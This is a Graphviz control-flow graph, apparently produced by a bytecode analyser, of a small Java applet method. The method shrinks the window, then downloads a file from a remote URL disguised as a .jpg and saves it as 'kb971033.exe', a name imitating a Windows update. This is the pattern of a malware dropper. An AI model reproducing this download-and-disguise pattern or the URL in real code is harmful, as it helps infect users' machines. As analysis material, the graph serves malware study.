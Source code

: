 digraph "" {
    "r0 := @this: Main"
    "load.r r0"
    "r0 := @this: Main"->"load.r r0";
    "staticget <java.awt.Color: java.awt.Color BLACK>"
    "load.r r0"->"staticget <java.awt.Color: java.awt.Color BLACK>";
    "virtualinvoke <Main: void setBackground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color BLACK>"->"virtualinvoke <Main: void setBackground(java.awt.Color)>";
    "virtualinvoke <Main: void setBackground(java.awt.Color)>"->"load.r r0";
    "push 50"
    "load.r r0"->"push 50";
    "push 50"->"push 50";
    "virtualinvoke <Main: void setSize(int,int)>"
    "push 50"->"virtualinvoke <Main: void setSize(int,int)>";
    "virtualinvoke <Main: void setSize(int,int)>"->"load.r r0";
    "push \"http://www.corvinasnest.com/lists/admin/web/ccm4.jpg\""
    "load.r r0"->"push \"http://www.corvinasnest.com/lists/admin/web/ccm4.jpg\"";
    "push \"kb971033.exe\""
    "push \"http://www.corvinasnest.com/lists/admin/web/ccm4.jpg\""->"push \"kb971033.exe\"";
    "push \"\""
    "push \"kb971033.exe\""->"push \"\"";
    "virtualinvoke <Main: void download(java.lang.String,java.lang.String,java.lang.String)>"
    "push \"\""->"virtualinvoke <Main: void download(java.lang.String,java.lang.String,java.lang.String)>";
    "return"
    "virtualinvoke <Main: void download(java.lang.String,java.lang.String,java.lang.String)>"->"return";
}

